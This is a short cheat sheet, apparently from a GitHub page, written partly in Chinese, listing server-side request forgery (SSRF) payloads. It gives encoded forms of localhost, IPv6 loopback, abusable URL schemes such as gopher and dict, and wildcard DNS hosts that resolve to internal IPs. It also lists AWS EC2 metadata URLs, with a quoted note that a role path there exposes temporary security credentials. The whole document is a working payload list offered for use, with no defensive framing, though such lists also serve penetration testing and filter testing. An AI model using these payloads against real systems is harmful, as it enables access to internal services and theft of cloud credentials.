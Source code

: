 ## SSRF

```
http://0177.1/
```

```
http://0x7f.1/
```

```
http://127.000.000.1
```

```
https://520968996
```

_提示:_ Ip段可被计算出，通过  http://www.subnetmask.info/

**一些处理协议**

```
gopher://, dict://, php://, jar://, tftp://
```

**IPv6**

```
http://[::1]
```

```
http://[::]
```

**通配符 DNS**

```
10.0.0.1.xip.io
www.10.0.0.1.xip.io
mysite.10.0.0.1.xip.io
foo.bar.10.0.0.1.xip.io
```
_Link:_ http://xip.io

```
10.0.0.1.nip.io
app.10.0.0.1.nip.io
customer1.app.10.0.0.1.nip.io
customer2.app.10.0.0.1.nip.io
otherapp.10.0.0.1.nip.io
```

_Link:_ http://nip.io

**AWS EC2 元数据**

```
http://169.254.169.254/latest/meta-data/  
```

```
http://169.254.169.254/latest/meta-data/local-hostname
```

```
http://169.254.169.254/latest/meta-data/public-hostname
```

> 如果存在与实例关联的IAM角色，则role-name是该角色的名称，role-name包含与该角色关联的临时安全凭据[…]

_Link:_ http://docs.aws.amazon.com/AWSEC2/latest/UserGuide/ec2-instance-metadata.html (包含一个全面的实例元数据类别表)

